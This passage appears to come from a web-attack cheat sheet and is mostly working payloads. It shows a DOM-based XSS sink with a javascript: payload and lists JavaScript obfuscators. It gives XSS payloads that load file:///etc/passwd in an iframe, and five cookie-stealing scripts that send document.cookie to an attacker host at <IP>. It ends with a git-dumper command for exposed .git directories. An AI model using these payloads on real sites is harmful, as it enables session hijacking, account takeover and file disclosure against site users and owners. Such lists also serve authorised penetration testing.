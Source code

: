 #### Dom Based
```
<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
```
  
->  
```
javascript:alert(1)
```

### JavaScript Encoding
-> jjencode  
- https://utf-8.jp/public/jjencode.html   
-> aaencode  
- https://utf-8.jp/public/aaencode.html  
-> jsfuck  
- http://www.jsfuck.com/  
-> Xchars.js  
- https://syllab.fr/projets/experiments/xcharsjs/5chars.pipeline.html  

### Decoder - Obfuscation (Javascript Decoder and PHP)
https://malwaredecoder.com/  

### XSS to LFI
```
<img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```
	
### XSS - Session Hijacking
-> Examples
```
<script>new Image().src="http://<IP>/ok.jpg?output="+document.cookie;</script>
<script type="text/javascript">document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>window.location="http://<IP>/?cookie="+document.cookie;</script>
<script>document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>fetch('http://<IP>/?cookie=' + btoa(document.cookie));</script>  
```

### Template - Nuclei
- https://raw.githubusercontent.com/esetal/nuclei-bb-templates/master/xss-fuzz.yaml

## Git Exposed
```bash
git-dumper http://site.com/.git .
```
- https://github.com/arthaud/git-dumper

### Tools
- https://github.com/internetwache/GitTools
